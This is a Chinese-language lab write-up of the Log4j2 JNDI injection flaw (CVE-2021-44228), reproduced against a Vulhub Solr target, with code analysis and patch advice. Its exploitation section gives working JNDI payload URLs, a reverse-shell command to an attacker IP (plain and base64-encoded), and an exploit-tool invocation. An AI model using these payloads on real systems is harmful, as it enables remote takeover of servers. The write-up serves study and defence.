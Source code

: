 # CVE-2021-44228 Log4j2 RCE

## Description

Apache Log4j2 是一款优秀的 Java 日志框架。2021 年 11 月 24 日，阿里云安全团队向 Apache 官方报告了 Apache Log4j2 远程代码执行漏洞。由于 Apache Log4j2 某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink 等均受影响。阿里云应急响应中心提醒 Apache Log4j2 用户尽快采取安全措施阻止漏洞攻击。

vulhub: [Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)


### 影响版本

Apache Log4j 2.x <= 2.14.1

## 扩展知识
### JNDI

JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 在局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。

​JNDI 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：DNS、LDAP、 CORBA 对象服务、RMI 等等。

其应用场景比如：动态加载数据库配置文件，从而保持数据库代码不变动等。

## Explanation of exploit; PoC

### 验证是否存在漏洞

1. 靶场运行后，访问 `http://your-ip:8983` ，如果页面显示 `Solr Admin`，则说明部署成功。
2. 先通过 [Dnslog](http://dnslog.cn/) 平台获取一个子域名 `ie2p24.dnslog.cn`
3. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater。
4. 修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:ldap://ie2p24.dnslog.cn}` ，并发送请求。
    ![](images/cve-2021-44228-8.png)
5. 访问 [Dnslog](http://dnslog.cn/) 平台，可以看到已经收到了请求，说明存在漏洞。
    ![](images/cve-2021-44228-9.png)

### 利用漏洞 RCE

1. 使用 [JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/releases) 进行漏洞利用
2. 反弹 Shell 指令 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1`，其中 `192.168.10.20` 为 Kali 的 IP 地址，`4444` 为 Kali 的监听端口。
3. 为提高命令执行有效负载 Runtime.getRuntime().exec() 的成功率，将此条反弹 Shell 指令进行 Java Runtime Bash 编码，参考 [Java Runtime Bash Encoding](https://x.hacking8.com/java-runtime.html)
4. 编码后的反弹 Shell 指令为 `bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}`
5. 将编码后的反弹 Shell 指令作为参数传入 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，执行命令 `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.10.20`，其中 `-C` 为命令参数，`-A` 为 Kali IP 地址。
    ![](images/cve-2021-44228-10.png)
6. 同时在 Kali 上监听 `4444` 端口。
    ![](images/cve-2021-44228-11.png)
7. 访问靶场任意页面并通过 BurpSuite 抓包，将请求包发送到 Repeater，修改请求包中的 URL 为 `/solr/admin/cores?action=${jndi:rmi://192.168.10.20:1099/aq9oex}` ，并发送请求。其中 `rmi://192.168.10.20:1099/aq9oex` 为 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 生成的 Payload。
    ![](images/cve-2021-44228-12.png)
8. 回到 Kali，可以看到已经收到了反弹 Shell 请求，说明利用成功。
    ![](images/cve-2021-44228-13.png)

### 漏洞分析

漏洞触发点在 Logger 的 `debug、info、warn、error、fatal` 方法

![](images/CVE-2021-44228-1.png)

这些方法都会调用 `logIfEnabled` 方法

![](images/CVE-2021-44228-2.png)

从 `logIfEnabled` 层层跟入，到达 `MessagePatternConverter` 类的 `format` 方法，在这个方法内部，会先判断 `this.config != null && !this.noLookups` 的值是否为真，其中 `this.noLookups` 的值来自于 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS`，`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 的值又来自于 JVM 参数 `log4j2.formatMsgNoLookups` 的值，相关代码如下

```java
this.noLookups = Constants.FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS || noLookupsIdx >= 0;
···
public static final boolean FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS = PropertiesUtil.getProperties().getBooleanProperty("log4j2.formatMsgNoLookups", false);
```

所以只要 JVM 参数中 `log4j2.formatMsgNoLookups==True`，漏洞利用就无法成功。

之后的代码会判断要打印的日志字符串 `workingBuilder` 中是否包含连续的两个字符 `$` 和 `{`。如果存在，就将 `${xxx}` 这段字符提取出来，传入 `StrSubstitutor` 类的 `replace` 方法

![](images/CVE-2021-44228-3.png)

最后传入 `substitute` 方法中。`substitute` 会调用 `resolveVariable` 方法，

![](images/CVE-2021-44228-4.png)

`resolveVariable` 方法中会进行 `resolver.lookup` 查询，

![](images/CVE-2021-44228-5.png)

![](images/CVE-2021-44228-6.png)

最后会进入 `JndiLookup.lookup` 方法进行 jndi 查询，查询的参数就是 `ldap://127.0.0.1:1389/a`

![](images/CVE-2021-44228-7.png)


## Mitigation
### 通用修补建议

- 升级 Apache Log4j2 所有相关应用到最新的 log4j-2.15.0-rc1 版本，地址 https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1
- 升级已知受影响的应用及组件，如 srping-boot-strater-log4j2/Apache Solr/Apache Flink/Apache Druid。

### 临时修补建议

- 设置 JVM 启动参数 `-Dlog4j2.formatMsgNoLookups=true`
- 拦截请求中的 `${` 字符串
- 限制不必要的应用访问外网

## References

- [Apache Log4j 远程代码执行漏洞源码级分析](https://www.cnblogs.com/510602159-Yano/p/15689497.html)
- [CVE-2021-44228——Log4j2-RCE漏洞复现](https://www.cnblogs.com/loongten/p/15822195.html)
- [java命令执行payloads编码工具](https://x.hacking8.com/java-runtime.html)
- [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
- [marshalsec](https://github.com/mbechler/marshalsec)